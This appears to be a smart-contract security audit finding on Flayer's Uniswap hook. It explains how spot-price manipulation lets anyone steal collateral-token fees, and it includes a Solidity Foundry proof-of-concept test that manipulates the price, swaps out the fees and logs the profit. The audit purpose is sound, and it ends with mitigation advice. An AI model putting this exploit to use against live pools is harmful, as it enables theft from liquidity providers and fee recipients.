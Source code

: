 Sharp Blonde Camel

High

# Anyone steals hook fees via spot price manipulation

### Summary

The hook takes the [spot price](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/implementation/UniswapImplementation.sol#L510) from the pool to swap (in one step) the collateral token fees. This is vulnerable to manipulation.


### Root Cause

In [UniswapImplementation.sol#L510](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/implementation/UniswapImplementation.sol#L510) the price used is the spot price.


### Internal pre-conditions

There have to be fees in `amount1` (collateral token) in the pool.


### External pre-conditions

None

### Attack Path

The attack can be used with a flash loan if needed, but the amount to execute attack is not huge and depends on the liquidity in the pool.

1. The attacker swaps collateral token to native token to increase the price of native token. This swap does not touch the fees.
2. The attacker swaps native token to collateral token. This is exact output swap with the output amount equal to fees value. This will not make a swap in the pool, but only the "swap" on fees.
3. The attacker swaps back the native token to collateral token to bring back the initial price and get the tokens back (return to original situation).

### Impact

The attacker can buy fees (`amount1`) for a very low price and swap it back to native token, effectively stealing the fees.


### PoC

Run this test as part of `UniswapImplementation.t.sol`.
**Important:** Firstly fix the DoS bug with swapping fees (described here: #5).

```solidity
    function test_abuser_StealingFeesViaSpotPriceManipulation() public withLiquidity {
        //@audit PoC: StealingFeesViaSpotPriceManipulation
        // When there are fees (amount1) in the hook, one can manipulate the price to swap small amount of native token to get all fees

        // Give tokens and approfe for deposit fees
        uint256 feeAmount = 20 ether;
        address feesDepositor = vm.addr(0x1101);
        deal(address(unflippedToken), feesDepositor, feeAmount);
        vm.startPrank(feesDepositor);
        unflippedToken.approve(address(uniswapImplementation), type(uint).max);
        uniswapImplementation.depositFees(address(unflippedErc), 0, feeAmount);
        vm.stopPrank();

        // Give WETH and approve for swaps (theft)
        WETH.approve(address(poolSwap), type(uint).max);
        deal(address(WETH), address(this), 20 ether);

        // Give token and approve for swaps (manipulation)
        uint256 manipulationAmount = 100 ether;
        deal(address(unflippedToken), address(this), manipulationAmount);
        unflippedToken.approve(address(poolSwap), type(uint).max);

        PoolKey memory poolKey = _poolKey(false);

        uint160 sqrtPriceX96;
        IPoolManager.SwapParams memory swapParams;

        uint256 wETHStart = WETH.balanceOf(address(this));
        uint256 tokenStart = unflippedToken.balanceOf(address(this));

        // price before manipulation
        (sqrtPriceX96, , , ) = poolManager.getSlot0(poolKey.toId());
        console.log("Price before manipulation:");
        console.log(sqrtPriceX96);

        // manipulate price
        swapParams = IPoolManager.SwapParams({
            zeroForOne: false,
            amountSpecified: -int256(manipulationAmount),
            sqrtPriceLimitX96: TickMath.MAX_SQRT_PRICE - 1
        });

        uint256 wETHBeforeManipulation = WETH.balanceOf(address(this));

        // manipulation swap
         poolSwap.swap(
            poolKey,
            swapParams,
            PoolSwapTest.TestSettings({
                takeClaims: false,
                settleUsingBurn: false
            }),
            ''
        );

        uint256 wETHAfterManipulation = WETH.balanceOf(address(this));
        uint wETHEarned = wETHAfterManipulation - wETHBeforeManipulation;

        // price during manipulation
        (sqrtPriceX96, , , ) = poolManager.getSlot0(poolKey.toId());
        console.log("Price during manipulation:");
        console.log(sqrtPriceX96);

        // stealing fees
        swapParams = IPoolManager.SwapParams({
            zeroForOne: true,
            amountSpecified: int256(feeAmount),
            sqrtPriceLimitX96: TickMath.MIN_SQRT_PRICE + 1
        });

        // Action stealing swap
         poolSwap.swap(
            poolKey,
            swapParams,
            PoolSwapTest.TestSettings({
                takeClaims: false,
                settleUsingBurn: false
            }),
            ''
        );


        // bring back price
        swapParams = IPoolManager.SwapParams({
            zeroForOne: true,
            amountSpecified: -int256(wETHEarned),
            sqrtPriceLimitX96: TickMath.MIN_SQRT_PRICE + 1
        });

        // bring back price swap
         poolSwap.swap(
            poolKey,
            swapParams,
            PoolSwapTest.TestSettings({
                takeClaims: false,
                settleUsingBurn: false
            }),
            ''
        );

        // price after bringing back
        (sqrtPriceX96, , , ) = poolManager.getSlot0(poolKey.toId());
        console.log("Price after bringing back:");
        console.log(sqrtPriceX96);

        uint256 wETHEnd = WETH.balanceOf(address(this));
        uint256 tokenEnd = unflippedToken.balanceOf(address(this));

        if (tokenStart > tokenEnd) {
            console.log("Token loss:");
            console.log(tokenStart - tokenEnd);
        } else {
            console.log("Token profit:");
            console.log(tokenEnd - tokenStart);
        }

        if (wETHEnd > wETHStart) {
            console.log("WETH profit:");
            console.log(wETHEnd - wETHStart);
        } else {
            console.log("WETH cost:");
            console.log(wETHStart - wETHEnd);
        }
    }
```


### Mitigation

1. Do not use the spot price for swapping fees or implement slippage protection.
2. Do not compute swap in one step with the liquidity equal to the whole pool liquidity. 